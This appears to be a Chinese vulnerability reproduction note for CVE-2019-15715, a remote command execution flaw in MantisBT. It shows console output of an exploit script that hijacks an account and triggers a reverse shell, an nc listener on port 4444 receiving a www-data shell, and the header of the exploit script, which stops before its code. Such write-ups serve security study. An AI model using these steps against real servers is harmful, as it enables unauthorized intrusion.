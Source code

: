（CVE-2019-15715）MantisBT 远程命令执行漏洞
===========================================

一、漏洞简介
------------

该漏洞源于外部输入数据构造操作系统可执行命令过程中，网络系统或产品未正确过滤其中的特殊字符、命令等。攻击者可利用该漏洞执行非法操作系统命令。

二、漏洞影响
------------

MantisBT 1.3.20 - 2.22.1

三、复现过程
------------

### poc

***使用方法***

    kali@kali:~/Desktop$ python exploit.py
    Successfully hijacked account!
    Successfully logged in!
    Triggering reverse shell
    Cleaning up
    Deleting the dot_tool config.
    Deleting the relationship_graph_enable config.
    Successfully cleaned up


    kali@kali:~/Desktop$ nc -nvlp 4444
    listening on [any] 4444 ...
    connect to [192.168.116.135] from (UNKNOWN) [192.168.116.151] 43978
    bash: cannot set terminal process group (835): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@ubuntu:/var/www/html/mantisbt-2.3.0$ id
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)

> CVE-2019-15715.py

    # Exploit Title: Mantis Bug Tracker 2.3.0 - Remote Code Execution (Unauthenticated)
    # Date: 2020-09-17
    # Vulnerability Discovery: hyp3rlinx, permanull
    # Exploit Author: Nikolas Geiselman
    # Vendor Homepage: https://mantisbt.org/
    # Software Link: https://mantisbt.org/download.php
    # Version: 1.3.0/2.3.0
    # Tested on: Ubuntu 16.04/19.10/20.04
    # CVE : CVE-2017-7615, CVE-2019-15715
    # References: